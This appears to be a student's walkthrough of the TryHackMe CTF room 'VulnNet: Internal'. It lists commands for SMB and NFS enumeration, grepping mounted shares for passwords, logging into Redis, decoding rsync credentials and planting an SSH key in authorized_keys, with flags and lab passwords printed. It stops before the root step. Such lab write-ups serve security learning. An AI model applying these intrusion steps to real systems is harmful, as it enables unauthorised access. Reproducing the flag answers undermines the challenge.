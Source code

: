 ```yaml
---
layout: page
title: VulnNet: Internal
permalink: /CSCI24/VulnNetInternal/
---
```


---

[CSCI 24 Directory](https://zacvr.github.io/CSCI24/)
<br/>

---
<br/>


Task 1
---

Lets start with a nmap scan shall we?

```nmap -sC -sV 10.10.106.247```

<img src="/images/CSCI24/OWASPTop10/Task 1 Q1.png">

we have quite a few posibilities so lets see if metaspolit sees anything

Since we see some SMB shares lets try for that

lets add the IP to our host file with

```sudo nano /etc/hosts```

I named it VulnInternal

```smbmap -H VulnInternal```

<img src="/images/CSCI24/OWASPTop10/Task 1 Q1.5.png">

We see a share named "shares" lets look into it shall we?

```smbmap -H VulnInternal -u root -R```

Now we neet to "get" the file suspiciously named "services.txt"

<img src="/images/CSCI24/OWASPTop10/Task 1 Q1.6.png">

```smbget -R smb://VulnInternal/shares/temp/services.txt```

Lets cat that file

```cat services.txt```

<img src="/images/CSCI24/OWASPTop10/Task 1 Q1.7.png">

What is the services flag? (services.txt)

***THM{0a09d51e488f5fa105d8d866a497440a}***
---

Port 2049 looks different

a quick search [Here](https://blog.christophetd.fr/write-up-vulnix) shows that we can look into NFS shares

```showmount -e VulnInternal```

<img src="/images/CSCI24/OWASPTop10/Task 1 Q1.7.png">

We can copy this into a new directory to look into the results

```mkdir VulnInternal```

```sudo mount -t nfs VulnInternal:/opt/conf VulnInternal```
```cd VulnInternal```
lets see if we can find anything with grep

```grep -R pass```

<img src="/images/CSCI24/OWASPTop10/Task 1 Q2.png">

After some googling and finding what redis was I found that we need a tool to try and work with it

```sudo apt install redis-tools```

Lets try to get in with that password we found

```redis-cli -h VulnInternal -a B65Hx562F@ggAZ@F```

```info```

<img src="/images/CSCI24/OWASPTop10/Task 1 Q2.5.png">

Now at the bottom we see a key space that we can look into further

```keys *```

Key #3 is "internal flag"

```get "internal flag"```


What is the internal flag? ("internal flag")

***THM{ff8e518addbbddb74531a724236a8221}***


```type authlist```

I learned from a write up about lrange

```lrange authlist 1 99999```

"QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="

is written 3 times and is most likely base64

<img src="/images/CSCI24/OWASPTop10/Task 1 Q3.png">

looks like we are going to use rysnc as well (password: Hcg3HP67@TW@Bc72v)

```rsync rsync://rsync-connect@VulnInternal/```

There is a folder named files lets look into it

```rsync rsync://rsync-connect@VulnInternal/files```

```rsync rsync://rsync-connect@VulnInternal/files/sys-internal/```

lets look into the txt file

it didn't want to save itn oa nromal folder so I moved it to the tmp

```cd /tmp```

```sudo rsync rsync://rsync-connect@VulnInternal/files/sys-internal/user.txt user.txt -v```

```sudo cat user.txt```

What is the user flag? (user.txt)

***THM{da7c20696831f253e0afaca8b83c07ab}***


What is the root flag? (root.txt)

A walkthrough taught me that rysnc can pull and push files such as a new SSH key!

ssh-keygen (to create a key in tmp named VulnKey)

```rsync id_rsa.pub rsync://rsync-connect@VulnInternal/files/sys-internal/.ssh/authorized_keys```

Lets make sure our key was put in the folder

```rsync rsync://rsync-connect@internal.thm/files/sys-internal/.ssh/```

```ssh sys-internal@VulnInternal -i id_rsa```

after rooting aroudn there is a fodler named TeamCity

the reame shows us how to run a file


***
